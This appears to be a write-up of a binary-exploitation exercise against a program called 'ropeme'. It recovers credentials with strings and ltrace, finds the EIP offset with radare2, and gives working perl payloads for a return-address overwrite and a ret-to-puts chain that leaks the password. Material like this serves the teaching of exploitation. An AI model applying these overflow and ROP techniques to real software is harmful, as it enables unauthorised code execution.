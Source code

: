 ========
Write-up
========

Exercise 1
==========

Using `strings ./ropeme` we find a line "admin42". It happens to be the
username.

Exercise 2
==========

You can trace calls to library functions with ltrace. This includes strcmp:

::

    $ ltrace ./ropeme admin42
    __libc_start_main(0x8048553, 2, 0xffe934a4, 0x80485b0 <unfinished ...>
    strcmp("admin42", "admin42")                                         = 0
    printf("Enter password:
    ")                                          = 16
    read(0, "test\n", 512)                                               = 5
    strcmp("test\n",
    "\304\263\303\271\303\260\342\210\222\303\267<>[\303\227") = -1
    puts("Wrong password"Enter password: Wrong password
    )                                               = 15
    +++ exited (status 1) +++


The password is "\304\263\303\271\303\260\342\210\222\303\267<>[\303\227". To
see it without the octal notation one can use printf:

::

    $ printf "\304\263\303\271\303\260\342\210\222\303\267<>[\303\227"
    ĳùð−÷<>[×


That explains why is didn't show up using "strings"!

Exercise 3
==========

Reading ltrace's output we can see that fgets is used to get user input
reading up to 512 chars from stdin. What happens if we really write 512
chars?

::

    $ perl -e 'print "A"x512' | ./ropeme admin42
      Segmentation fault      (core dumped) | ./ropeme admin42

Oh! This smells the buffer overflow! To know where exactly we overwrite the
instruction pointer (eip) I'll use a De Bruijn sequence (I could guess but
this is faster). This is done using radare2 tools.

Here ragg2 will generate a 500-bytes long sequence with no repetitions as
hexadecimal values, rax2 will convert it into ascii values, and we put it in
the clipboard using xclip so that we are able to paste it later.

::

    $ ragg2 -P 500 | rax2 -s - | xclip

Radare2 is then used in debug mode with rarun2 to launch the program with an
argument. We could use gdb but... well... radare2 ^^

::

    $ r2 -d rarun2 program=./ropeme arg1=admin42
        ...
     [0x7f2168f15d80]> dc
     Debugging pid = 4050, tid = 1 now
     [0xf7778b50]> dc
     Enter password:
     <paste here from clipboard>
     Wrong password
     [+] SIGNAL 11 errno=0 addr=0x41416641 code=1 ret=0
     [+] signal 11 aka SIGSEGV received 0
     [0x41416641]> woO 0x41416641
     92

Here we have the address at which it tried to return: 0x41416641
Still in radare2 we convert it into an offset to know how much padding we
need:

::

    [0x41416641]> woO 0x41416641
    92

Let's try that!

::

    $ perl -e 'print "A"x92 . "B"x4' | xclip
    $ r2 -c "dc;dc" -d rarun2 program=ropeme arg1=admin42
        ...
    Enter password:
    <paste>
    Wrong password
    [+] SIGNAL 11 errno=0 addr=0x42424242 code=1 ret=0
    [+] signal 11 aka SIGSEGV received 0
     -- Fill the bug. Fill it with love. With the creamy and hot sauce of love.
    [0x42424242]>

It works! We have taken eip! We just have to redirect it to section printing
the winning message. Let's disassemble the function checking the password:

::

    $ r2 ropeme
    [0x080483b0]> aa
    [0x080483b0]> is | grep password
    vaddr=0x08048496 paddr=0x00000496 ord=067 fwd=NONE sz=141 bind=GLOBAL type=FUNC name=check_password
    [0x080484e6]> pdf @ sym.check_password
    ╒ (fcn) sym.check_password 141
    │           ; var int local_22     @ ebp-0x58
    │           ; CALL XREF from 0x08048571 (sym.check_password)
    │           0x08048496    55             push ebp
    │           0x08048497    89e5           mov ebp, esp
    │           0x08048499    83ec58         sub esp, 0x58
    │           0x0804849c    83ec0c         sub esp, 0xc
    │           0x0804849f    6817860408     push str.Enter_password:
    │           0x080484a4    e887feffff     call sym.imp.puts
    │           0x080484a9    83c410         add esp, 0x10
    │           0x080484ac    83ec04         sub esp, 4
    │           0x080484af    6800020000     push 0x200
    │           0x080484b4    8d45a8         lea eax, [ebp-local_22]
    │           0x080484b7    50             push eax
    │           0x080484b8    6a00           push 0
    │           0x080484ba    e861feffff     call sym.imp.read
    │           0x080484bf    83c410         add esp, 0x10
    │           0x080484c2    85c0           test eax, eax
    │       ┌─< 0x080484c4    7517           jne 0x80484dd
    │       │   0x080484c6    83ec0c         sub esp, 0xc
    │       │   0x080484c9    6827860408     push str.Unable_to_get_the_password
    │       │   0x080484ce    e85dfeffff     call sym.imp.puts
    │       │   0x080484d3    83c410         add esp, 0x10
    │       │   0x080484d6    b801000000     mov eax, 1
    │      ┌──< 0x080484db    eb44           jmp 0x8048521
    │      │└─> 0x080484dd    83ec08         sub esp, 8
    │      │    0x080484e0    6842860408     push str.________________
    │      │    0x080484e5    8d45a8         lea eax, [ebp-local_22]
    │      │    0x080484e8    50             push eax
    │      │    0x080484e9    e822feffff     call sym.imp.strcmp
    │      │    0x080484ee    83c410         add esp, 0x10
    │      │    0x080484f1    85c0           test eax, eax
    │     ┌───< 0x080484f3    7517           jne 0x804850c
    │     ││    0x080484f5    83ec0c         sub esp, 0xc
    │     ││    0x080484f8    6853860408     push str.Yeah__You_win_
    │     ││    0x080484fd    e82efeffff     call sym.imp.puts
    │     ││    0x08048502    83c410         add esp, 0x10
    │     ││    0x08048505    b800000000     mov eax, 0
    │    ┌────< 0x0804850a    eb15           jmp 0x8048521
    │    │└───> 0x0804850c    83ec0c         sub esp, 0xc
    │    │ │    0x0804850f    6862860408     push str.Wrong_password
    │    │ │    0x08048514    e817feffff     call sym.imp.puts
    │    │ │    0x08048519    83c410         add esp, 0x10
    │    │ │    0x0804851c    b801000000     mov eax, 1
    │    └ └    ; JMP XREF from 0x0804850a (sym.check_password)
    │    └ └    ; JMP XREF from 0x080484db (sym.check_password)
    │    └─└──> 0x08048521    c9             leave
    ╘           0x08048522    c3             ret


Ok, so given the disassembly the key section is at 0x080484f8. Let's try that:

::

    $ perl -e 'print "A"x92 . "\xf8\x84\x04\x08"' | ./ropeme admin42
    Enter password: Wrong password
    Yeah! You win!
    Segmentation fault (core dumped)

Finally!


Exercise 4
==========

When calling another function, the caller (say `main`) pushes the arguments
on the stack (not always, see further) and uses the call opcode that pushes
the current address on the stack for later return and then jumps to the
sub-routine location.

The sub-routine then pushes the ebp address to define its own stack frame,
takes the arguments from the stack to store them in local variables (often
pushing them back or just stocking them in registers), does its thing, then
pops the stack (the ebp address) and returns to the address at the top of the
stack (our previous return address put there by call). The instruction
pointer is incremented and the program continues.

I left away the stack allocation process besides push/pop because it isn't
very relevent here. Also there are other calling conventions besides the
stack. In x86_64, as the registers are bigger and more numerous they are the
primary way to pass arguments.

So the stack look like that before entering puts:

::

    ^ [string address]
    | [return address]

Note that as the stack is decreasing, pushing puts data at the bottom of this
diagram which is the top of the stack (facing downward). Also I represented
it without really using the opcode "call", that's why there is the return
address.

For strcmp it is similar, but note that the arguments are pushed in reverse
order:

::

    ^ [str2   address]
    | [str1   address]
    | [return address]

Exercise 5
==========

To display the password we will hijack a call to puts(). Such a call means
the stack will look somewhat like that before the call:

::

    ^ [password    address]
    | [puts return address]
    | [puts        address]
    | [padding to overflow]

The address of puts is direct:

::

    $ rabin2 -s ropeme | grep puts
    vaddr=0x08048330 paddr=0x00000330 ord=003 fwd=NONE sz=16 bind=GLOBAL type=FUNC name=imp.puts

So [puts address] is 0x08048330. In the same way we find the password address:

::

    $ rabin2 -z ropeme
    ...
    vaddr=0x08048642 paddr=0x00000642 ordinal=004 sz=17 len=9 section=.rodata type=ascii string=ĳùð−÷<>[×
    ...

By the way note how rabin2 isn't troubled at all by the weird password.

So far our stack is something like: "30830408XXXXXXXX42860408". Right now the
return address isn't really important, we will return to the end of the
check_password function, just before the return statement, at address
0x08048521.

::

    # Stack wanted:
    #
    # ^ [password    address] = 0x08048642
    # | [puts return address] = 0x08048521
    # | [puts        address] = 0x08048330
    # | [padding to overflow] = "A" x 92

    $ perl -e 'print "A"x92 . "\x30\x83\x04\x08\x21\x85\x04\x08\x42\x86\x04\x08"' | ./ropeme admin42
    Enter password: Wrong password
    ĳùð−÷<>[×
    Segmentation fault (core dumped)

Yeah!

Exercise 6
==========

We want to print an arbitrary message. The printing part can be done with
puts() but what about the "getting the message" part? The program provides
read(), and we can make use of it.

The read system call takes as argument a file descriptor, an address to write
to and a length.
